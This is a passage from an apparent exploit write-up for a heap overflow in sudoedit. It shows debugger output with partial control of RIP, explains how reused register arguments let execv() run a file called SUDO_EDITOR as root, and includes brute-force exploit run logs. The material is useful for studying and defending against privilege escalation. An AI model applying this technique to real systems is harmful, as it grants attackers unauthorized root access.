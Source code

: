 ```
$r14   : 0x00007ffcb5b1df08  →  0x802a75732b4ae100
$r15   : 0x4               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
────────────────────────────────────────────────
0x00007ffcb5b1de58│+0x0000: 0x0000556079797505  →   lea edx, [rax+0x1] ← $rsp
0x00007ffcb5b1de60│+0x0008: 0x0000000000000000 ← $rsi, $r12
0x00007ffcb5b1de68│+0x0010: 0x802a75732b4ae100
0x00007ffcb5b1de70│+0x0018: 0x0000000000000000
0x00007ffcb5b1de78│+0x0020: 0x00007ffcb5b1def0  →  0x00007f1f0bbee9e8  →  "../../../plugins/sudoers/rcstr.c"
0x00007ffcb5b1de80│+0x0028: 0x00007f1f0bbe564d  →  "SUDO_EDITOR"
0x00007ffcb5b1de88│+0x0030: 0x00007ffcb5b1df98  →  0x0000000000000000
0x00007ffcb5b1de90│+0x0038: 0x00007ffcb5b1df08  →  0x802a75732b4ae100
────────────────────────────────────────────────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x7f1f0b008a04
────────────────────────────────────────────────
[#0] Id 1, Name: "sudoedit", stopped 0x7f1f0b008a04 in ?? (), reason: SIGSEGV
────────────────────────────────────────────────
gef➤
```

As you can see, we successfully got control over RIP partially (2 arbitrary bytes + a NULL): `0x7f1f0b008a04`

Those arguments for `hook.u->getenv_fn()` can be reused as they are fully compatible with the `execv()` ones.

First argument:

`$rdi   : 0x00007f1f0bbe564d  →  "SUDO_EDITOR"`

`rdi` points to a string, which in `execv()` coincides with the binary path to be executed

Second argument:

`$rsi   : 0x00007ffcb5b1de60  →  0x0000000000000000`

`rsi` points to a place where a NULL pointer is stored, thus being valid for our call.

Fortunately, we accomplish the needed conditions to execute a binary called `SUDO_EDITOR` in the same path we are executing the exploit.

Then `SUDO_EDITOR` will be the callback that `execv()` will execute as root.

Result:

```
[i] Try 2833
[.] crafting payload...
[.] triggering heap overflow...
./exp.sh: line 3: 40278 Segmentation fault      ./exploit
[i] Try 2834
[.] crafting payload...
[.] triggering heap overflow...
./exp.sh: line 3: 40279 Segmentation fault      ./exploit
[i] Try 2835
[.] crafting payload...
[.] triggering heap overflow...
./exp.sh: line 3: 40280 Segmentation fault      ./exploit
[i] Try 2836
[.] crafting payload...
[.] triggering heap overflow...
./exp.sh: line 3: 40281 Segmentation fault      ./exploit
[i] Try 2837
[.] crafting payload...
[.] triggering heap overflow...
```
